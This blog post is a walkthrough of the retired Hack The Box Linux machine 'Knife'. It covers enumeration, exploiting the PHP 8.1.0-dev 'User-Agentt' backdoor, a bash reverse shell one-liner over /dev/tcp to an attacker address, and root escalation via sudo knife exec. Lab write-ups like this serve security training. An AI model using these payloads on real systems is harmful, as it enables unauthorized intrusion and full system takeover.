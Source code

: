 ```yaml
---
layout: single
title: "Walktrough: HTB Knife"
namespace: htb-knife
category: Walkthrough
tags:
   - HackTheBox
   - HTB Easy
   - HTB Linux
date: 2021-08-28 12:00:00
header:
   teaser: https://i.imgur.com/U5A7c9y.png
   og_image:   https://i.imgur.com/U5A7c9y.png
redirect_from: /writeup/2021/08/htb-knife
---
```


Hello guys!

This week's machine will be **Knife**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu/), created by [MrKN16H](https://app.hackthebox.eu/users/98767).<!--more-->

:information_source: **Info**: Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![HTB Knife](https://i.imgur.com/3IO9vBj.png){: .align-center}

This was a pretty straightforward box where you must pay attention to the details (in the case of the vulnerable web server) and always go for the low-hanging fruits first like abusing the `sudo` permissions user already have.

I hope you guys enjoy it!

## Enumeration

As usual, started with a quick `nmap` scan to check the published services on this box:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 17:50 -03
Nmap scan report for 10.10.10.242
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```

### 80/TCP - HTTP Service

Accessing the website we can see a simple institutional page from a health company, as below:

![HTB Knife - HTTP Service](https://i.imgur.com/oAbssxJ.png){: .align-center}

After accessing the website, gathered some information about the page, its components, and the server from which it was published using `whatweb,` and what called attention was the `X-Powered-By` header pointing to a **dev** version of **PHP 8.1.0**.

```bash
$ whatweb --color=never -a 3 10.10.10.242 | tee whatweb.txt
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], , Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Initial Access and User flag

As dev versions often contain vulnerabilities, decided to search it using `searchsploit` and found an RCE vulnerability as listed below:

```bash
$ searchsploit "8.1.0-dev"
---------------------------------------------------------------------- ----------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ----------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                   | php/webapps/49933.py
---------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
```

This vulnerability consists in a backdor which was added in some commits of PHP source code by compromised accounts and, when a request arrives with a header `User-Agentt: "zerodiumsystem('cmd');"`, the `cmd` will be interpreted and executed in the system. The payload available emulate a non-interactive shell and, from it, started an interactive session using the payload `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1'` which returned a session from **james**'s user account, where in his home directory I was able to read the contents of `user.txt`, obtaining the first flag.

```bash
james@knife:~$ id && hostname
uid=1000(james) gid=1000(james) groups=1000(james)
knife
james@knife:~$ cat user.txt
<redacted>
```

## Root flag

As usual, started with the command `sudo -l` and we were lucky once again, as output below:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife              
```

Doing a quick search on this binary, found out that it's related to [Chef's Configuration Management Solution](https://www.chef.io/) and, according to [knife \| GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo) page, could be easily used to privesc to root, as below, allowing us to get the final flag :smiley:

```bash
james@knife:~$ sudo /usr/bin/knife --help                                                                                 Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

[...]

james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# cat root.txt
<redacted>
```

I hope you guys have enjoyed!

See you at the next post :smile:
